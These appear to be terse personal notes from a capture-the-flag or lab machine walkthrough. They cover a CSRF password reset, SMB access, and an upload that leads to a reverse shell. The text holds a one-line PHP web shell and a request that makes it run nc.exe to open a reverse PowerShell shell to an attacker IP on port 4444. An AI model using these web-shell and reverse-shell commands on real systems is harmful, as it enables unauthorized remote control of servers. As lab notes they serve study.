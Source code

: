 ![image-20221022215059624](./images/image-20221022215059624.png)



# Exploitation

## csrf reset pwd

send change pass url, and reset the tyler password.

```bash
http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit
```

exploit failed, no clue.  password reset not work.



when reset password, login via tyler. 

got the tyler pwd and smb share. New-site, which is the port 8808

```bash
smbclient \\\\$tip\\new-site -U tyler

```

upload php shell  and nc.exe

```bash
<?php echo shell_exec($_GET['cmd']); ?>
```

get reverse 

```bash
http://10.129.25.9:8808/evil.php?cmd=nc.exe%2010.10.14.78%204444%20-e%20powershell
```



## sql injection

this from the ipsec video.
